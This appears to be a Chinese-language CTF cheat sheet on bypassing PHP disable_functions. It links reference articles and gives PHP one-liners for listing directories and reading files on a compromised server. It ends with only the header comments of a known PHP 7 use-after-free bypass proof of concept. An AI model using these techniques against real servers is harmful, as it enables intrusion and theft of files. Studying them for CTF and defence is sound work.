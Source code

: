 # 文章
[bypass disable_functions姿势总结 - 先知社区](https://xz.aliyun.com/t/10057#toc-21)<br />[【WEB】bypass-disable-function | 狼组安全团队公开知识库](https://wiki.wgpsec.org/knowledge/ctf/bypass-disable-function.html)<br />[PHP-Bypass-disable_function（使用.so等进行绕过disable_function）](https://blog.lxscloud.top/2022/04/15/PHP-Bypass-disable_function/)<br />[https://lazzzaro.github.io/2020/05/18/web-PHP%E7%BB%95%E8%BF%87/](https://lazzzaro.github.io/2020/05/18/web-PHP%E7%BB%95%E8%BF%87/)<br />[浅谈几种Bypass disable_functions的方法 [ Mi1k7ea ]](https://www.mi1k7ea.com/2019/06/02/%E6%B5%85%E8%B0%88%E5%87%A0%E7%A7%8DBypass-disable-functions%E7%9A%84%E6%96%B9%E6%B3%95/)
# 例题
[[NepCTF 2023] ez_include](https://boogipop.com/2023/08/14/NepCTF%202023%20All%20WriteUP/#Ez-include)
# 扫目录和读取文件
### 扫目录
```java
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

```
### 读取文件
```java
highlight_file($filename);
show_source($filename);
print_r(php_strip_whitespace($filename));
print_r(file_get_contents($filename));
readfile($filename);
print_r(file($filename)); // var_dump
fread(fopen($filename,"r"), $size);
include($filename); // 非php代码
include_once($filename); // 非php代码
require($filename); // 非php代码
require_once($filename); // 非php代码
print_r(fread(popen("cat flag", "r"), $size));
print_r(fgets(fopen($filename, "r"))); // 读取一行
fpassthru(fopen($filename, "r")); // 从当前位置一直读取到 EOF
print_r(fgetcsv(fopen($filename,"r"), $size));
print_r(fgetss(fopen($filename, "r"))); // 从文件指针中读取一行并过滤掉 HTML 标记
print_r(fscanf(fopen("flag", "r"),"%s"));
print_r(parse_ini_file($filename)); // 失败时返回 false , 成功返回配置数组
```
# UAF绕过
[exploits/php7-backtrace-bypass at master · mm0r1/exploits](https://github.com/mm0r1/exploits/tree/master/php7-backtrace-bypass)<br />[PHP :: Bug #76047 :: Use-after-free when accessing already destructed backtrace arguments](https://bugs.php.net/bug.php?id=76047)
```php
<?php

# PHP 7.0-7.4 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=76047
# debug_backtrace() returns a reference to a variable 
# that has been destroyed, causing a UAF vulnerability.
```